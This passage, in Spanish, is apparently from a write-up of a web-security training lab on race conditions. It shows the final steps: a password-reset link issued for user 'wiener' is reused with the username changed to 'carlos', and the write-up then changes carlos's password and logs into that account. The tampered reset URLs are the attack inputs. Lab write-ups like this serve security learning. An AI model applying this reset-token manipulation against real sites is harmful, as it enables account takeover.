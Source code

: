 Debemos `copiarnos` el `enlace` y `sustituir` el `nombre` de `wiener` por `carlos`

```
/forgot-password?user=wiener&token=78e5d2447713cd97fc82095dd3b482fb5691ac8a
```

```
/forgot-password?user=carlos&token=78e5d2447713cd97fc82095dd3b482fb5691ac8a
```

Accedemos a `/forgot-password?user=carlos&token=78e5d2447713cd97fc82095dd3b482fb5691ac8a` y le `cambiamos` la `contraseña` al usuario `carlos`

![](/assets/img/Race-Conditions-Lab-5/image_33.png)

Pulsamos sobre `My account` e `iniciamos sesión` como el usuario `carlos`

![](/assets/img/Race-Conditions-Lab-5/image_34.png)

`Ganamos acceso` a la `cuenta` del usuario `carlos`

![](/assets/img/Race-Conditions-Lab-5/image_35.png)